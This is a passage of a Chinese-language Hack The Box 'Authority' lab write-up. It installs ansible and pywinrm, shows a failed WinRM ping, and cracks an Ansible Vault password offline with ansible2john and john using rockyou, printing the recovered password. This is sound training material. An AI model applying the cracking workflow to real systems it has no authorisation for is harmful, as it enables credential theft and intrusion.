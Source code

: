 #### 安装ansible

由于安装在用户目录，所以需要将其加入PATH（推荐用虚拟环境隔离一下，也不必用“--user”选项了自然也不用修改PATH）。  
然后根据[ansible文档](https://docs.ansible.com/ansible/latest/os_guide/windows_winrm.html#what-is-winrm)，使用WinRM时安装pywinrm包：
```bash
┌──(kali㉿kali)-[~/HTB/Authority/SMB]
└─$ python3.9 -m pip -V
pip 21.2.3 from /usr/local/lib/python3.9/site-packages/pip (python 3.9)

┌──(kali㉿kali)-[~/HTB/Authority/SMB]
└─$ python3.9 -m pip install --user ansible

┌──(kali㉿kali)-[~/HTB/Authority/SMB]
└─$ export PATH=/home/kali/.local/bin:$PATH

┌──(kali㉿kali)-[~/HTB/Authority/SMB]
└─$ ansible --version
ansible [core 2.15.2]
  config file = None
  configured module search path = ['/home/kali/.ansible/plugins/modules', '/usr/share/ansible/plugins/modules']
  ansible python module location = /home/kali/.local/lib/python3.9/site-packages/ansible
  ansible collection location = /home/kali/.ansible/collections:/usr/share/ansible/collections
  executable location = /home/kali/.local/bin/ansible
  python version = 3.9.7 (default, Jul 18 2023, 22:35:31) [GCC 12.2.0] (/usr/local/bin/python3.9)
  jinja version = 3.1.2
  libyaml = True

└─$ python3.9 -m pip install "pywinrm>=0.3.0"
```

#### python3.9的ansible运行结果

```bash
└─$ ansible -i ansible_inventory.yml -m win_ping HTB 
10.10.11.222 | UNREACHABLE! => {
    "changed": false,
    "msg": "ntlm: the specified credentials were rejected by the server",
    "unreachable": true
}
```

拒绝NTLM认证？难道是兔子洞？？

### 破解vault

对于前面发现的3个vault加密，看看john能否破解。

```bash
┌──(kali㉿kali)-[~/HTB/Authority/nmapscan]
└─$ john --list=formats | grep ansible
aix-ssha512, andOTP, ansible, argon2, as400-des, as400-ssha1, asa-md5, 
416 formats (149 dynamic formats shown as just "dynamic_n" here)

┌──(kali㉿kali)-[~/…/SMB/Automation/Ansible/PWM]
└─$ ansible2john vault-ldap-pw.txt > vault-ldap-pw.hash

┌──(kali㉿kali)-[~/…/SMB/Automation/Ansible/PWM]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=ansible vault-ldap-pw.hash
Using default input encoding: UTF-8
Loaded 1 password hash (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 128/128 AVX 4x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^&*         (vault-ldap-pw.txt)
```

[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available